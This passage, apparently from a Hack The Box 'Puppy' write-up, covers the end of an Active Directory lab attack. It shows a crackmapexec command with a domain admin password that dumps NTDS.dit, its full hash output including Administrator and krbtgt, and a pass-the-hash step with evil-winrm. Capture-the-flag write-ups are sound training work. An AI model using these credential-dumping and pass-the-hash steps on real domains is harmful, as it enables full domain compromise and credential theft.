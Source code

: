 <p class="indent-paragraph">
With valid domain administrator credentials in hand, the next logical step was to extract the NTDS.dit secrets from the domain controller. This was performed using<code>crackmapexec</code> with the<code>--ntds</code> flag, which allowed for a full dump of user password hashes from Active Directory. It is important to highlight that although tools like<code>netexec</code> (nxc) support similar functionality, attempting an NTDS dump using<code>nxc --ntds</code> on recent Windows Server builds (such as 2019 or 2022) may crash the domain controller. As such,<code>crackmapexec</code> remains the safer and more stable option for this task.
</p>
<p class="indent-paragraph">
The output confirmed full domain compromise, revealing the password hashes for critical accounts, including<code>Administrator</code><span class="codefix">,</span><code>krbtgt</code><span class="codefix">,</span> and all domain users. These hashes are valuable for offline cracking, impersonation, or further lateral movement across trust boundaries. At this point, full control over the domain had been achieved.
</p>

```
~$ crackmapexec smb dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' --ntds

SMB         dc.puppy.htb    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb    445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         dc.puppy.htb    445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.puppy.htb    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         dc.puppy.htb    445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.puppy.htb    445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         dc.puppy.htb    445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         dc.puppy.htb    445    DC               [+] Dumped 10 NTDS hashes
```

<p class="indent-paragraph">
With full domain administrator privileges established, we had direct access to all user directories on the system. From this point, two viable paths could be followed to retrieve the<code>root.txt</code> flag. The first involved navigating to<code>C:\Users\Administrator\Desktop</code> using the<code>steph.cooper_adm</code> account, which had sufficient rights to enumerate and read contents from other user folders. Alternatively, we leveraged the Administrator account's NT hash, previously extracted via<code>crackmapexec</code><span class="codefix">,</span> to authenticate using Pass-the-Hash through<code>evil-winrm</code><span class="codefix">,</span> bypassing the need for the cleartext password entirely.
</p>
